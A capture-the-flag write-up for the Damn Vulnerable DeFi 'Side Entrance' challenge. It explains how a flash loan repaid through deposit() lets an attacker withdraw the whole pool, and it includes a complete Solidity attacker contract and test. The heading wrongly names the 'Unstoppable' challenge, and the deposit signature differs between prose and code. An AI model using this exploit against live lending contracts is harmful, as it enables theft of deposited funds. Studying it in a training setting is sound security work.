 Prepared by: [Elia Bordoni](https://elia-bordoni-blockchain-dev.netlify.app/)

### Damn Vulnerable DeFi: Unstoppable

**Exercise** A surprisingly simple pool allows anyone to deposit ETH, and withdraw it at any point in time.
It has 1000 ETH in balance already, and is offering free flashloans using the deposited ETH to promote their system. You start with 1 ETH in balance. Pass the challenge by rescuing all ETH from the pool and depositing it in the designated recovery account.

## Protocol Allows Flash Loan Ether to Be Deposited and Marked as Repaid, Enabling Subsequent Unauthorized Withdrawals

**Description** The protocol allows users to take flash loans and ensures repayment by comparing the current balance of the contract with the balanceBefore value recorded at the beginning of the operation. However, the protocol also provides `SideEntranceLenderPool::deposit(uint256 _amount)` that updates the balances mapping. If, within the flash loan callback, instead of repaying the borrowed funds via a direct call, the borrower calls `SideEntranceLenderPool::deposit(uint256 _amount)` to return the Ether, the final repayment check will still pass successfully. This is because the Ether is indeed present in the contract’s balance, even though it has been credited to the attacker’s account in the balances mapping.
As a result, the flash loan transaction completes without reverting, but the attacker retains a non-zero balances entry. After the transaction, the attacker can call `SideEntranceLenderPool::withdraw()` to drain the funds, effectively stealing all the deposited Ether.

<details>
<summary>vulnerability</summary>

```solidity
    function flashLoan(uint256 amount) external {
        uint256 balanceBefore = address(this).balance;

        IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();

@>      if (address(this).balance < balanceBefore) {
            revert RepayFailed();
        }
    }
```

</details>

**Impact** An attacker can borrow the contract’s entire Ether balance through a flash loan, repay it using `SideEntranceLenderPool::deposit(uint256 _amount)`, and subsequently call `SideEntranceLenderPool::withdraw()` to steal all the funds. This results in a complete and permanent loss of all Ether held by the contract.

**ProofOfConcept** Add the code into the test file `SideEntrance.t.sol` to deploy the attacker contract. Then create AttackerContract.sol and copy the attacker codebase into it. Run the test to confirm it passes successfully: within a single transaction the flash loan is requested and “repaid” by calling deposit, and then the attacker contract calls withdraw and forwards the received funds to the destination address.

<details>
<summary>Test Code</summary>

```solidity
    /**
     * CODE YOUR SOLUTION HERE
     */
    function test_sideEntrance() public checkSolvedByPlayer {
        AttackerContract attacker = new AttackerContract(address(pool), recovery);
        attacker.attack();
    }
```

</details>

<details>
<summary>Attacker Contract Code</summary>

```solidity
   // SPDX-License-Identifier: MIT
pragma solidity ^0.8.25;
import "forge-std/Test.sol";

interface ISideEntranceLenderPool {
    function flashLoan(uint256 amount) external;

    function deposit() external payable;

    function withdraw() external;
}

contract AttackerContract {
    ISideEntranceLenderPool private pool;
    address private owner;
    address private recovery;

    constructor(address _poolAddress, address _recoveryAddress) {
        pool = ISideEntranceLenderPool(_poolAddress);
        owner = msg.sender;
        recovery = _recoveryAddress;
    }

    function attack() external {
        require(msg.sender == owner, "Only owner can attack");
        uint256 amount = address(pool).balance;
        pool.flashLoan(amount);
        pool.withdraw();
    }

    function execute() external payable {
        pool.deposit{value: address(this).balance}();
    }

    receive() external payable {
        (bool success,)= recovery.call{value: msg.value}("");
        require(success, "Transfer to recovery failed");
    }
}
```

</details>
